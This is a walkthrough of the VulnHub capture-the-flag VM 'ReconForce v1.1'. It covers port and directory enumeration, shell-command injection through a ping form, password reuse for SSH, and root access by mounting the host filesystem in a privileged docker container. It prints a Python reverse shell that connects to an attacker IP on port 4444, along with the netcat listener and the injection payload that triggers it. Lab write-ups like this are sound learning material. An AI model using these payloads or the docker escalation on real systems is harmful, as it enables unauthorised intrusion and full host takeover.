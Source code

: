 # Walkthrough: [ReconForce v1.1](https://www.vulnhub.com/entry/hacknos-reconforce-v11,416/)

## Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Escelation](#escelation)
- [Bonus](#bonus)
	- [CLI](#cli)
	- [Intresting Files](#intresting-files)

## Enumeration
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14 `
	
- VM info: `nmap -A -T4 -v 192.168.0.14`
	
	* <pre>
	  21/tcp open  ftp     vsftpd 2.0.8 or later
	  22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
	  880/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	  </pre>
	* FTP **Anonymous** log-in is on. 
		* FTP Server Banner: "ftp 'Security@hackNos'"
	  
- Web Server Directory: `dirb -w http://192.168.0.14` 

	* <pre>
	  http://192.168.0.14/index.html
	  http://192.168.0.14/css/style.css
	  http://192.168.0.14/css/2.jpg
	  </pre>
	  
- Web Server 192.168.0.14/5ecure login using:

	* admin:Security@hackNos, FTP Server Banner

- Web Server Directory: `dirb -w http://192.168.0.14/5ecure`		
	* <pre>
	  http://192.168.0.14/5ecure/index.html, form that POSTs data to output.php
	  http://192.168.0.14/5ecure/css/style.css
	  http://192.168.0.14/5ecure/css/2.jpg
	  http://192.168.0.14/5ecure/output.php, simple ping <ip> function + stdout
	  </pre>

## Penetration
- 192.168.0.14/5ecure/out.php

	* `exec(ping $ip)`, possible shell injection 
	
- $ip = || command

	* '; command' / '&& command' / '& command' didn't work out, possible character escape 
	* Examples:
		* ip=|| ls, *system navigation*
		* ip=|| whoami, *www-data*
		* ip=|| vi *filename*, *privilege check*
		* ip=|| export	

- [intresting files](#intresting-files):

	* /var/opt/python.py, creates a connection to 192.168.0.104:4444 and runs an interactive shell
	* /etc/passwd, user information

## Escelation

- `ssh 192.168.0.14 -l recon`
	* pass: Security@hackNos
- `docker run -it --privileged --name=ctf -v /:/host:rw alpine sh`
- container: `cd /host`

---

## Bonus

### CLI 
- configurate host/attacking machine network settings
	* add a new network connection and manualy set it up:
		- IP: 192.168.0.104
		- Netmask: 255.255.255.0
		- Gateway: 192.168.0.1
		- connect to the network using the new interface
- `nc -lvp 4444` to initiate a listener on 4444
- on 192.168.0.14/5ecure/index.php ping scan, run '|| python /var/opt/python.py' 
- tty: `python -c 'import pty; pty.spawn("/bin/bash")'`
- `getent group`: 
	* `docker:x:119:`, passwd --> `recon:x:1000:119:rahul:/home/recon:/bin/bash`
	* recon user gid = docker 

### Intresting files

- /var/opt/python.py:
	```
	import socket
	import subprocess
	import os
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.104", 4444))
	os.dup2(s.fileno(), 0)
	os.dup2(s.fileno(), 1)
	os.dup2(s.fileno(), 2)
	p = subprocess.call(["/bin/bash", "-i"])
	```
	
- /var/etc:
	```
	root:x:0:0:root:/root:/bin/bash
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	recon:x:1000:119:rahul:/home/recon:/bin/bash
	ftp:x:111:117:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
	```
